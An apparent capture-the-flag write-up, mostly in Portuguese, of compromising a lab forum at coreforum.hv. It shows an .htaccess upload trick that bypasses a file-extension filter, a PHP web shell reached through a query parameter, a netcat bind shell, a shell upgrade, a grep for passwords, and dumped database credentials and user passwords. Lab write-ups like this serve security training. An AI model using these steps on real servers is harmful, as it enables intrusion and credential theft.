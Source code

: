 #+title: Core
#+author: gabriel

* intro
Our Anti-Cybercrime team has received information about illegal activities on a hacker forum. The administrator of the forum conducts his shady business here in secret and every day new members are added to the criminal network. Our team suspects that confidential data is stored on the server of this forum. Your task is to infiltrate the forum as a normal user and collect important information about the administrator. This operation requires careful planning and high technical skills. Our goal is to identify digital criminals and ensure the digital security of society.

** urls
#+begin_src sh
http://coreforum.hv/
http://coreforum.hv/
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/add_topic.php
http://coreforum.hv/addPost.php
http://coreforum.hv/index.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/login.php
http://coreforum.hv/logout.php
http://coreforum.hv/profile.php
http://coreforum.hv/register.html
http://coreforum.hv/register.php
http://coreforum.hv/set_session.php
http://coreforum.hv/set_session.php?id=61
http://coreforum.hv/set_session.php?id=62
http://coreforum.hv/set_session.php?id=63
http://coreforum.hv/set_session.php?id=64
http://coreforum.hv/set_session.php?id=65
http://coreforum.hv/set_session.php?id=66
http://coreforum.hv/set_session.php?id=67
http://coreforum.hv/set_session.php?id=68
http://coreforum.hv/set_session.php?id=69
http://coreforum.hv/set_session.php?id=70
http://coreforum.hv/set_session.php?id=71
http://coreforum.hv/set_session.php?id=72
http://coreforum.hv/set_session.php?id=73
http://coreforum.hv/show_post.php
http://coreforum.hv/topics
http://coreforum.hv/topics/topic1.html
http://coreforum.hv/topics/topic2.html
http://coreforum.hv/topics/topic3.html
http://coreforum.hv/topics/topic4.html
http://coreforum.hv/uploads
http://coreforum.hv/uploads
http://coreforum.hv/uploads/.htaccess
http://coreforum.hv/uploads/cmd.bypass
http://coreforum.hv/uploads/cmd.bypass?cmd=ls
#+end_src

Na funcionalidade de file upload existe um filtro para extensão, fiz alterações no MIME type, FIle signature e mesmo assim não conseguia o upload do web shell php.

Porém ao enviar um arquivo .htaccess com o content
: AddType application/x-httpd-php .bypass

o bypass no filtro é bem sucedido e a vuln command injection foi encontrada ->
: http://coreforum.hv/uploads/cmd.bypass?cmd=ls



*rodar na aplicação* ->
: nc -lvnp 1337 -e /bin/bash

*to get bash* ->
: python3 -c 'import pty; pty.spawn("/bin/bash")'

*xterm para funcionar corretamente* ->
: export TERM=xterm

*permissao do www-data user sem password* ->
: sudo /usr/sbin/iftop

porém o iftop está com algumas opções perigosas para segurança como espace shell desativada, então será necessário outro caminho

Sabendo da existência do banco de dados, utilizando este grep buscarei por alguma coisa com password no dir da aplicação ->
: grep -ri "password" /var/www/html/

#+begin_src sh
www-data@debian:/var/www/html/uploads$ cat /var/www/html/dbconnect.php
<?php

$servername = "localhost";
$db_username = "root";
$db_password = "mUsQ6kQ6L86yRnzD";
$dbname = "hacker";
#+end_src

#+begin_src sh
mysql> select * from users;
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
|  1 | admin    | LrEVgETDEUDVAdCa |
| 13 | jon      | jonadmin         |
+----+----------+------------------+
#+end_src
